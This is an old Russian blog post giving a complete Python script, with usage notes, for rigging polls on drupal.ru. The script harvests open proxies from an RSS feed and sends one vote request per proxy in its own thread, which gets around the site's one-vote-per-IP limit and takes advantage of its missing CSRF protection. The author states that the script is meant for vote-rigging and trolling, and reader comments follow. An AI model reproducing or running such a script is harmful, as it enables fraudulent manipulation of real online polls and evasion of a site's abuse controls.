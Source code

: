 ```yaml
---
layout: post
title:  "Накручивание голосований на Друпал.ру"
date:   "2013-03-04 05:46:40"
permalink: /2013/03/04/1/
categories: Питон Друпал Программирование
---
```

Простой скрипт на Питоне, накручивающий голосовалки на Друпал.ру:

[[html <pre><code>
import threading
import urllib
import re
import sys
import time
import random

try:
    _, nid, variant = sys.argv[:3]
except:
    print "Usage: python poll.py nid variant"
    exit(1)


PROXY_PATTERN = r"\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}:\d{2,5}"
POLL_URL = "http://www.drupal.ru/inner_poll/vote_js"

PROXY_URLS = (
    "http://feeds.feedburner.com/best-proxy/oKhv",
)

proxies = []
for url in PROXY_URLS:
    try:
        proxies.extend(re.findall(PROXY_PATTERN, urllib.urlopen(url).read()))
    except:
        continue

params = {
    "n": nid,    # node id
    "v": variant # variant id ("0,1,n" if multiple)
}
data = urllib.urlencode(params)

threads = []

print len(proxies), "proxies =)"
time.sleep(3)

def job(p):
    time.sleep(random.randint(0, 60))
    urllib.urlopen(POLL_URL, data=data, proxies={'http': 'http://' + p})

for p in proxies:
    t = threading.Thread(target=job, args=(p, ))
    try:
        t.start()
    except:
        pass
</code></pre>]]

Запускать так:
[[html <pre><code>
python poll.py nid variant
</code></pre>]]
, где nid — номер ноды, variant — номер варианта ответа (нумерация с нуля) либо варианты через запятую.

Комментарии к коду.

1. На Друпал.ру голосование разрешено всем, даже анонимам.
2. Единственное ограничение на голосование — IP должен быть уникальным в пределах номера ноды.
3. Запрос осуществляется методом POST с передачей двух переменных: номера ноды и варианта. Про CSRF-токены не, не слышали.
4. Каждый запрос делаем через свой прокси. Список прокси берем из RSS-ленты сайта http://best-proxy.ru/ Лента, как вы заметили, пропущена через Фидбернер, т.к. создатели сайта огораживаются от граббинга.
5. Каждый запрос выделяем в свой тред.
6. КПД проксей где-то 10%, что тоже неплохо.

Область применения скрипта — накрутка и троллинг.



#### Комментарии из старого блога


**03/10/13 RxB:** Ну зачем...
Теперь все будут знать


**03/10/13 Иван Гришаев:** Да и хрен с ним.
Во-первых, на Д.ру одни пхп-шники, во-вторых, best-proxy.ru больше не обновляется, прокси из РСС-ленты не работают.




**03/25/13 Александр Мальков:** Но, все равно - спасибо. Интересный подход.




